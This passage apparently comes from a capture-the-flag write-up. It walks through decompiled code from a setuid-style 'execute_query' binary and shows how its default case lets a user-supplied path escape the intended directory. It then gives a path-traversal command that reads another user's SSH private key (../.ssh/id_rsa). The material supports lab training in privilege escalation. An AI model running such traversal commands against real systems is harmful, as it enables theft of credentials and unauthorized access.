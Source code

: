 ```
            }
            default:
                strncpy(rax_7, argv[2], 0x14);
        }
        if (((((rax_6 > 4 || rax_6 == 1) || rax_6 == 2) || rax_6 == 3) || rax_6 == 4))
        {
            int64_t var_98;
            __builtin_strcpy(&var_98, "/home/jack/queries/");
            uint64_t rax_19 = strlen(&var_98);
            char* __arg1 = calloc(((strlen(rax_7) + rax_19) + 1), 1);
            strcat(__arg1, &var_98);
            strcat(__arg1, rax_7);
            setreuid(0x3e8, 0x3e8);
            if (access(__arg1, 4) != 0)
            {
                puts("File not readable or not found");
            }
```

You dont have to be good at coding or anything but just seeing the switch, let you know that the cases are the options we saw earlier, and the default case is:

It takes the second argument as a file, so for example if we did:
```
./execute_query "whatever" (wanted file)
```

We can read files, and where is the location we are at? it's the user home directory....

So how about we try to get his private key?

```bash
./execute_query 5 ../.ssh/id_rsa
```

And let's see the output....

![](../assets/images/clicker/20230927141311.png)
